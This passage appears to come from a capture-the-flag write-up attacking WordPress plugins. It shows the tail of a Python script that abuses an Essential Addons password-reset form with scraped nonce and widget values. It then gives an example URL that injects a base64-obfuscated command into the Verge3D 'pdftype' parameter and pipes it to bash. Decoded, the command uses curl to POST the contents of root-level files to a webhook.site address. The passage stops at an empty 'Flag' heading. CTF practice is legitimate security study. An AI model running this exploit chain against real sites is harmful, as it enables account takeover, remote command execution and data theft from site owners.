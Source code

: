 ```python
    widget_id = re.findall('name="widget_id".*?value="(.*?)"', res.text, re.DOTALL)[0]


    # print(nonce, widget_id)
    res = await api.c.post(f"/?p={post_id}", data={
        "eael-resetpassword-submit": 1,
        "eael-resetpassword-nonce": nonce,
        "page_id": post_id,
        "widget_id": widget_id,
        "eael-pass1": "foobar",
        "eael-pass2": "foobar"
    })
    # print(res.text)




if __name__ == "__main__":
    asyncio.run(main())
```

**Important Note:**

Before running this script, make sure to create a post manually and save the action JSON in `test.json`. This JSON should be captured when you submit the request. Also, don't forget to change the webhook URL in the payload.

After successfully running all the code, access the following URL:

```xml
http://<wp-url>/wp-admin/admin.php?page=verge3d_order&action=genpdf&order=asd&pdftype=<filename>

```

**Example:**

```xml
http://100.25.255.51:9099/wp-admin/admin.php?page=verge3d_order&action=genpdf&order=asd&pdftype=/foo||echo Y3VybCBodHRwczovL3dlYmhvb2suc2l0ZS9kYTMxMmQ4ZS1iZDdhLTQ3Y2YtYWZjNy1kZDZhNWQ2YzU0YjkgLVhQT1NUIC0tZGF0YSAiJChjYXQgLyopIg== | base64 -d |bash %23

```

The flag will be sent to the webhook:

## Flag
